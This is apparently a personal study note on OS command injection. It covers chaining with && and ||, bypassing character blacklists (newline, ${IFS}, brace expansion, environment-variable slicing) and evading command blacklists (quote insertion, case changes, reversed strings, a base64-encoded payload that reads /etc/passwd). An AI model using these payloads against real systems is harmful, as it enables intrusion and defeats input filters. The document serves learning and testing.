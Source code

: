 ![[Pasted image 20250415174021.png]]
![[Pasted image 20250415174756.png]]

**AND (&&) Operator** - `ping -c 1 127.0.0.1 && whoami` : This will execute both the commands.
**OR (||) Operator** - `ping -c 1 127.0.0.1 || whoami` : This runs second command only if the first commands fail to execute
![[Pasted image 20250416101227.png]]

**Check for Blacklisted Characters :**  A web application may have a list of blacklisted characters, and if the command contains them, it would deny the request. 

## Bypassing Blacklisted Characters
- Spaces - `127.0.0.1%0a whoami
- Use Tabs - `127.0.0.1%0a%09`
- Use IFS - `127.0.0.1%0a${IFS}`
- Using Brace Expansions - `127.0.0.1%0a{ls,-la}`
- `LINUX` If `/` is blacklisted then we can use something like - `${PATH:0:1}`, this prints the same output
-  `LINUX` If `;` is blacklisted then we can use something like - `${LS_COLORS:10:1}`
- `WINDOWS` If `/` is blacklisted then we can use something like - `echo %HOMEPATH:~6,-11%`

## Bypassing Blacklisted Commands
- If a command like `whoami` is blacklisted, then for `BASH` or `POWERSHELL` we can use - `w'h'o'am'i`
- If a command like `whoami` is blacklisted and it's confirmed that it is `LINUX BASH`, then we can use- `who$@ami`  or  `w\ho\am\i`
- If a command like `whoami` is blacklisted and it's confirmed that it is `WINDOWS`, then we can use - `who^ami`
- We can use Case Manipulation - `WhOaMi`
- `$(a="WhOaMi";printf %s "${a,,}")`
- `LINUX` Reversed Command - `$(rev<<<'imaohw')`
- `POWERSHELL` Reversed Command - `iex "$('imaohw'[-1..-20] -join '')"`
- Encode the Command using - `echo -n 'cat /etc/passwd | grep 33' | base64` and then use the payload as : `bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)`
- 